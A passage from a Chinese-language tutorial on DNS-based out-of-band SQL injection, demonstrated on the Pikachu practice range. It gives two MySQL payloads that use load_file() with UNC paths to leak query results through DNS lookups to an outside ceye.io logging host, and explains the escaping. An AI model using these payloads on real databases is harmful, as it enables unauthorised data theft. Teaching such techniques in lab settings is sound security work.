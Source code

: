 先给出最常用的两种 Payload

```plain
Payload 1:
and if((select load_file(concat('//',(select 攻击语句),'.xxxx.ceye.io/sql_test'))),1,0)

Payload 2:
and if((select load_file(concat('\\\\',(select 攻击语句),'.xxxx.ceye.io\\sql_test'))),1,0)
```

Payload 1,2 大体的思路都是一样的，也就是在`if()`函数中嵌套`load_file()`函数再使用 UNC 路径进行读取，`sql_test`这里写什么都可以，只是为了符合`load_file()`函数格式，读取时会产生 DNS 访问信息，唯一的不同点在于 Payload 2 在 URL 中使用`\(反斜杠)`时要双写配合转义

> 转义：转义是一种引用单个字符的方法。一个前面放上转义符 () 的字符就是告诉 shell 这个字符按照字面的意思进行解释

这里使用 Pikachu 靶场的时间盲注关卡进行演示，方便大家进行理解，在测试前一定先要确保`secure_file_priv`选项为空，可以使用`show variables like '%secure%';`进行查询  
[![](assets/1707953831-c159fc18db450e1149698a0168b4bab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192758-72dd3c38-c350-1.png)  
在修改`my.ini`文件时需要注意`secure_file_priv`选项是新增的，本身并没有这个选项  
